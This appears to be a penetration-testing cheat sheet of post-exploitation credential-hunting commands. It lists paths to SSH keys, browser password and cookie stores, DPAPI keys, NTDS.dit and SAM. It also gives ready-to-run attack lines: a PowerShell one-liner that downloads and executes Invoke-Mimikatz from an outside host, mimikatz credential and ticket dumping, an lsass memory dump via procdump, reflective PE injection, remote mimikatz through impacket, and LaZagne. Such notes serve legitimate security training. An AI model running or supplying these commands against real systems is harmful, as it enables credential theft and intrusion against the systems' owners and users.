 ### Grep
Grep recursively search for string under path
```
grep -r  "password" /home/kali/Desktop/10.10.10.152 2>/dev/null
```

### git folder
```
directory name = .git
python3 git_extract.py gitfilename
```
### Private key
```
.ssh/id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
bitvise ssh private key path on windows
```
C:\Users\username\.ssh\id_rsa||id_dsa||id_ecdsa||id_ed25519||id_ecdsa-sk||id_ed25519-sk
```
### Sensitive files
```
find *.log, passwd, username, credential
C:\Users\username\Documents
C:\Users\username\Downloads
*.gpg
*.pgp
*config*.php
elasticsearch.y*ml
kibana.y*ml
*.p12
*.der
*.csr
*.cer
known_hosts
id_rsa
id_dsa
*.ovpn
anaconda-ks.cfg
hostapd.conf
rsyncd.conf
cesi.conf
supervisord.conf
tomcat-users.xml
*.kdbx
KeePass.config
Ntds.dit
SAM
SYSTEM
FreeSSHDservice.ini
access.log
error.log
server.xml
ConsoleHost_history.txt
.github folder
setupinfo
setupinfo.bak
*.bak, *.db
*.pdf
*.zip
*.7z
*.gz
*.sitx
*.rar
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network
%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Google\Chrome\User Data\Local State
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network
%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Network\Cookies
%LOCALAPPDATA%\Microsoft\Edge\User Data\Local State
%APPDATA%\Roaming\Microsoft\Protect\<SID> -> DPAPI Keys
%SystemRoot%\NTDS\ntds.dit(Active Directory database)
%SystemRoot%\System32\winevt\Logs\Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx(Windows event logs)
```
### Linux Web Service
```
Check all the folders and files under var/www/html
```
### tcpdump to capture packets 
```
tcpdump -i any udp -vvv
```
### History
```
Linux:
check all user's .bash_history
/home/user/.bash_history
```
### Password Hash
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
Mimikatz - sekurlsa::logonpasswords  
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  
lsadump::cache  
sekurlsa::tickets


###### Load mimikatz and run it locally.  
```
$PEBytes = [IO.File]::ReadAllBytes('mimiikatz.exe')  
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "privilege::debug sekurlsa::logonpasswords Arg3 Arg4"
https://github.com/KiritoLoveAsuna/Penetration-Testing/blob/main/Invoke-ReflectivePEInjection.ps1
```
###### Procdump to extract hash by mimikatz
```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmp
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```
###### Run mimikatz remotely
```
python3 /usr/share/doc/python3-impacket/examples/mimikatz.py oscp.exam/Administrator:December31@192.168.112.147
```
###### Mimikatz bypass LSA protection
![image](https://github.com/user-attachments/assets/1b2d30df-849c-4b1d-91b2-ad54d493d50d)

###### Pwdump
>It is recommended to extrast hashes using both mimikatz and pwdump

### Password Retriver
```
laZagne.exe all
```
